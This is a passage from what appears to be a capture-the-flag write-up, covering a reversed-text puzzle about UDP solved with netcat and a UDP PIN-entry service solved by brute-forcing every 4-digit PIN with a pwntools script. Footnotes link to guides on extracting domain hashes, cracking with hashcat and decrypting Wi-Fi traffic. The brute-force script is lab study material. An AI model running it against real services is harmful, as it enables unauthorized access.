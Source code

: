> 867 CFR is a protocol for sending data across networks. It is connectionless, meaning it does not establish a dedicated connection between sender and receiver. This makes it faster but less reliable than other transport protocols. 867 CFR is often used for real-time applications such as gaming and VoIP, and for low-overhead services like DNS.
> Weird stuff! Can you have a look? xx.isymra.22samxopo (344)

So, 867 RFC, let's do some reading. [Daytime Protocol](https://www.rfc-editor.org/rfc/rfc867), _A daytime service (UDP or TCP) simply sends a the current date and time as a character string without regard to the input._ _...wut?_

And several hours have passed, and I was lost. Taking a break, and looking at it again, all made sense, everything is in reverse order! ~~OMFG so much time has been lost!~~

So, again, RFC 768 describes User Datagram Protocol (UDP). Something familiar now! Let's connect!

```bash
$ nc -u  opoxmas22.armysi.cc 443
a
}eep_eed_uoy{galf
```

**Flag**: `flag{you_dee_pee}`

### Who’s There? (200 pts)

> I do not have a physical body, but I am here to help you with any questions you may have, give me a PIN, and I will tell you what to do next!
>
> opoxmas22.example.com (22222) looks interesting!

We have a UDP based service that requests a PIN (let's assume a 4 digit pin). So 10 000 possible combinations... Easy enough to do a script (with some timeout and retry logic because sometimes things went wrong).

```python
from itertools import product
from pwn import *
encoding = 'utf-8'
# your list needs be all-characters
lst = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9']
a = ["".join(item) for item in product(lst, repeat=4)]

r = remote('opoxmas22.armysi.cc', 22222, typ="udp", timeout=1)
i = 0
while True:
    r.send(bytearray(a[i]+"\n", encoding))
    res = str(r.recv(timeout=2), encoding)
    if res == "":
        r.close()
        r = remote('opoxmas22.armysi.cc', 22222, typ="udp")
        r.send(bytearray(a[i]+"\n", encoding))
        res = str(r.recv(timeout=2), encoding)
        print(a[i], res)
    if res != "WRONG PIN!":
        print("PIN:", a[i], "\n>", res)
        while True:
            new_result = re.findall('[0-9]+', res)
            print(new_result)
            if(len(new_result) != 3):
                exit()
            r = remote('opoxmas22.armysi.cc', new_result[0], typ="udp")
            r.send(bytearray(new_result[2]+"\n", encoding))
            res = str(r.recv(timeout=2), encoding)
            print(">", res)

    i += 1
# interactive mode
```

[^1]: [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)
[^2]: [Colabcat: Run Hashcat on Google Colab with session restore capabilities with Google Drive](https://github.com/someshkar/colabcat)
[^3]: [How to decrypt wifi traffic wireshark](https://kalitut.com/decrypt-wi-fi-traffic-wireshark/)